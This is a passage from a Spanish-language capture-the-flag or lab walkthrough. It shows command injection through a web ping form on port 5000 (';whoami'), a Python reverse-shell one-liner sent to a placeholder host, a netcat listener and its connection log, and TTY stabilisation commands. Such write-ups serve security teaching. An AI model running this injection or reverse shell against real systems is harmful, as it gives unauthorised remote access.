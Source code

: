 Si entramos a la pagina web del puerto `5000` veremos una interfaz en la que podremos meter una `IP` y nos hara como un `ping` mostrando la informacion del comando, por lo que podremos probar a concatenar comando de la siguiente forma:

## Escalate user freddy

```shell
;whoami
```

Info:

```
freddy
```

Y veremos que funciona, por lo que vamos a intentar enviar una `reverse shell` para ganar acceso como el usuario `freddy`.

```shell
; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y cuando lo enviemos, si vamos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 59704
$ whoami
whoami
freddy
```

Vemos que somo el usuario `freddy` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
